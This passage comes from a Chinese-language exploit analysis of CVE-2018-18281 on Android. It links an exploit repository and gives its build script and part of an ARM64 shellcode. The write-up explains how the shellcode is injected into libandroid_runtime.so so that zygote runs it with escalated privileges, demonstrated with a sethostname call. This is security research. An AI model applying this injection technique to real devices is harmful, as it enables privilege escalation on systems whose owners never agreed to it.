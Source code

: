 ```
注意:

mincore 函数可以用来判断一个区域内的内存是在物理内存中或被交换出磁盘
上述算法在 linux 的实现依赖于 mincore
```



## exploit code

我改了一份exploit 代码 [在这里](https://github.com/jiayy/android_vuln_poc-exp/tree/master/EXP-CVE-2018-18281), 主要包含下面几个文件:
- compile.sh
- shellcode.s
- exp.c
- watchdog.c


### <a class="reference-link" name="compile.sh"></a>compile.sh

这是编译脚本

```
1) aarch64-linux-gnu-as arm_shellcode.s -o arm_shellcode.o  
2) aarch64-linux-gnu-ld arm_shellcode.o -o arm_shellcode 
3) aarch64-linux-gnu-objcopy --dump-section .text=arm_shellcode.bin arm_shellcode 
4) xxd -i arm_shellcode.bin &gt; arm_shellcode.h 
5) make
```

1~3 是将汇编文件 arm_shellcode.s 编译成二进制并将可执行文件的代码段 (.text) 提取到文件 arm_shellcode.bin

4 使用 linux 的 xxd 工具将 arm_shellcode.bin 放进一个 c 语言分格的数组，后续在 c 代码里以数组变量的形式操作它

5 根据 Android.mk 编译可执行文件



## shellcode.s

下面简单看一下 shellcode.s 汇编,不感兴趣可以略过
- shellcode.s 本身很简单: 读取文件 “/proc/self/attr/current” ，然后将读取的内容作为参数调用 sethostname 函数，从而更改系统的 hostname
- 因为普通 app 没有权限调用系统函数 ‘sethostname’, 本 exploit 通过注入 shellcode.s 到 libandroid_runtime.so, 然后触发 zygote 进程执行 shellcode.s 达到越权执行的目的
```
// open file
_start:
mov x0, #-100
adrp x1, _start
// NOTE: We are changing the page-relative alignment of the shellcode, so normal
// aarch64 RIP-relative addressing doesn't work.
add x1, x1, attr_path-file_start
mov x2, #0
mov x8, #0x38
svc #0

attr_path:
.ascii "/proc/self/attr/current"
```
